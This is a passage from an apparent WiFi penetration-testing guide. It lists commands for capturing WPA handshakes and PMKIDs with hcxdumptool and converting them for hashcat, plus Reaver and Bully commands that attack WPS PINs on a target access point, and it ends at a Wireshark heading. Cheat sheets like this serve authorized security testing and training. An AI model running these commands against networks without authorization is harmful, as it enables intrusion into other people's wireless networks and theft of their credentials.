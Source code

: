 #### Usage Examples

```bash
# Capture with hcxdumptool
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=15

# Convert for hashcat
hcxpcapngtool -o hash.hc22000 capture.pcapng

# Extract PMKID
hcxpcapngtool -z pmkid.txt capture.pcapng

# Analyze capture statistics
hcxpcapngtool --info capture.pcapng
```

### Reaver (WPS Testing)

#### Installation and Usage

```bash
# Install reaver
sudo apt install reaver

# Scan for WPS-enabled networks
wash -i wlan0mon

# Attack WPS PIN
sudo reaver -i wlan0mon -b [TARGET_MAC] -vv

# Advanced options
sudo reaver -i wlan0mon -b [TARGET_MAC] -vv -d 60 -t 30 -c 6
```

### Bully (Alternative WPS Tool)

#### Installation and Usage

```bash
# Install bully
sudo apt install bully

# Basic WPS attack
sudo bully -b [TARGET_MAC] -c 6 wlan0mon

# Advanced options
sudo bully -b [TARGET_MAC] -c 6 -d -v 3 wlan0mon
```

### Wireshark (Traffic Analysis)

#### WiFi-Specific Features
